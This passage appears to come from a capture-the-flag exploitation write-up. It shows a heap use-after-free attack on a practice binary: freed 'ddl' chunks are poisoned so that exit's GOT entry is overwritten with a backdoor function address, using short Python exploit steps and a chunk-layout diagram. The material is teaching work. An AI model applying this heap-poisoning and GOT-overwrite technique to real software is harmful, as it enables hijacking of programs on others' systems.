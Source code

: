 Another thing to mention is that `0x50 = (0x40 + 8) # 16` where 0x50 and 0x40 is chunk size and struct size respectively.

### Exploit

Create 3 ddl:

```python
add_ddl_conn()  # A
add_ddl_conn()  # B
add_ddl_conn()  # C
```

Delete A and B in sequence:

```python
finish_ddl_conn(1)
finish_ddl_conn(2)
```

Since the chunk is as bellow:

```
+------------------+------------------+
| mchunk_prev_size |   mchunk_size    |
+------------------+------------------+ ---------
|        fd        |        bk        |     ↑
+------------------+------------------+  ddl_time
|                  |                  |     ↓
+------------------+------------------+----------
|                  |                  |     ↑
+------------------+------------------+  ddl_content
|                  |                  |     ↓
+------------------+------------------+ ---------
```

The fd and the `ddl_mgr.ddl_time` will have the same address.

Edit the freed B chunk, use the got of `exit` to overwrite the fd:

```python
edit_ddl_conn(2, p64(got_exit))
```

Enter the GOT table by adding 2 ddls, then overwrite `exit`'s' GOT entry with `backdoor`'s addr:

```python
add_ddl_conn()                    # D
add_ddl_conn(p64(addr_backdoor))  # E
```

Call `exit` to enter `backdoor`:

```python
exit_ddl_conn()
```

Hijacked:

<img src="assets/image-20210525145608122.png" style="zoom:50%;" />
